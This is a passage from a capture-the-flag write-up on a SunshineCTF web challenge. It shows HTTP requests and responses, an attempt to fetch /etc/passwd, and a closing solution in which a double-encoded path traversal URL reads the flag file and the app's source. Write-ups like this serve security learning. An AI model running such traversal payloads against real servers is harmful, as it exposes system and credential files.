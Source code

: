 ```http
Cookie: session=.eJzVT0lqAzEQ_IrQ2QR1S63Fr8g9GNNStzxDHDuMxifjv0chr8ipqA2qnvbcrzwWHfb48bRmn2C_dAy-qD3Y96vyUHO9X8x6M_vdcGvTNPuyDvM9M2_29Dr8k97pMM9uOhZ73LeHTraKPVrBBphqDj36VikqJ6oVKfjsA3skr8VFVmkQK6VAmKSDiyVHkZDBQVOYPQcanCRGzBBcb-RKCi21ABirAkXsqJm9IEUumltmKF1gzj8_hm5_a35pG1s_7_dPvU2BQKSQz4yha2gu1YIaJHOsvkdikh4RarCvH5wrjTw.aNmXEQ.HoncECn_3XLzON44mx9y41AaQNI
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://asteroid.sunshinectf.games/admin/lunar_files
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

Response 2:
```http
HTTP/2 308 Permanent Redirect
Server: nginx/1.24.0 (Ubuntu)
Date: Sun, 28 Sep 2025 21:09:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 283
Location: https://asteroid.sunshinectf.games/admin/download/etc/passwd

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://127.0.0.1:25307/admin/download/etc/passwd">http://127.0.0.1:25307/admin/download/etc/passwd</a>. If not, click the link.
```

Redirection:
```http
HTTP/2 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Sun, 28 Sep 2025 23:18:48 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 305
Location: /admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D">/admin/lunar_files?err_msg=%5B+Resource+Does+not+Exist!+%5D</a>. If not, click the link.
```

Im not sure what to do from here. I spent a lot of time on this testing things. No flag :(((((((

Turns out this was the solution: `https://asteroid.sunshinectf.games/admin/download/..%25f.%252f..%252f.%252f..%252fFLAG%252fflag.txt`.

The path is `.././.././../FLAG/flag.txt` which can be found from the source of `app.py` at `.././.././../app.py`
{% endraw %}
